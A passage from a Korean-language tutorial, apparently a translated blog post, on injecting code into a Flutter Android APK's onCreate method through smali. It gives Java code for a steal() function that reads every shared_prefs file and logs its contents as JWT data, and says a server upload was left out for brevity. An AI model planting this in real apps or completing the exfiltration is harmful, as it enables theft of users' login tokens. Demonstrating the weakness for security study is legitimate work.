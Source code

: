 io/flutter/embedding/android 경로가 존재하며, i.smali 라는 파일이 있습니다. 심지어 클래스 생성자인 `init`() 에 대한 여러 참조도 포함되어 있습니다.

그러나 여기서 더 흥미로운 점이 있습니다. 엉뚱한 이름이 아닌 몇 가지 이름을 살펴보세요: onCreate, onStart, onResume, onStop, onDestroy, ... 안드로이드 액티비티 수명주기처럼 보입니다. 확인해 보시기를 권장드립니다.

<div class="content-ad"></div>

지금 당장 알아야 할 것은 라이프사이클이란 앱이 상태를 변경할 때 호출되는 콜백의 그룹이라는 것입니다 (앱이 시작되었을 때, 앱이 백그라운드로 전환되었을 때, 기기가 회전했을 때 등). 우리는 onCreate를 코드를 삽입하는 곳으로 선택할 것입니다. 그러나 이 코드는 smali 코드로 작성되어야 합니다. 여기에는 두 가지 옵션이 있습니다:

- smali 코드에 직접 코드 작성하기 (그건 행운을 빕니다)
- Kotlin 또는 Java 코드를 작성한 다음, 컴파일된 코드를 분해하고 그것을 onCreate 메소드에 복사하기

우리는 두 번째 옵션을 선택할 것입니다. APK의 생성 및 컴파일 과정은 건너뛰고 커널 코드 자체가 가장 중요합니다:

```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // 한 줄로 정의하여 onCreate에 삽입하기 쉽게 함
        steal();
    }

    public void steal() {
        // 소중한 데이터 가져오기
    }
}
```

<div class="content-ad"></div>

onCreate 메서드에서는 steal() 함수만 호출합니다. 그런 다음 도용 함수는 공유된 환경 설정을 찾아 모든 파일을 순회하고 해당 내용을 로그로 기록합니다 (이 기사를 간결하게 유지하기 위해 서버 호출은 로깅으로 대체되었습니다). 처음 실행할 때 (첫 번째 로그인/인증 전에 실행된 작업) "파일을 찾을 수 없음"이라는 메시지가 로깅됨을 주목해주세요.

```js
public void steal() {
  // 환경 설정 디렉토리 가져오기
  File prefsDir = new File(getApplicationInfo().dataDir, "shared_prefs");

  // 환경 설정이 있는지 확인...
  if (prefsDir.exists() && prefsDir.isDirectory()) {
    String[] files = prefsDir.list();
    // ... 그렇다면, 올바른 환경 설정 찾기
    if (files != null) {
      for (String file: files) {
        // 파일을 알고 있습니다. 서버로 보낼 수 있습니다.
        // (간결함을 위해 코드는 생략되었습니다).
        지금은 로깅으로 합시다.
        Scanner myReader;
        try {
          myReader = new Scanner(new File(prefsDir.getPath(), file));
          List < String > lines = new ArrayList < String > ();
          while (myReader.hasNextLine()) {
            lines.add(myReader.nextLine());
          }
          Log.e("JWT", lines.toString());
        } catch (FileNotFoundException e) {
          Log.e("JWT", "파일을 찾을 수 없음");
        }
      }
    }
  }
```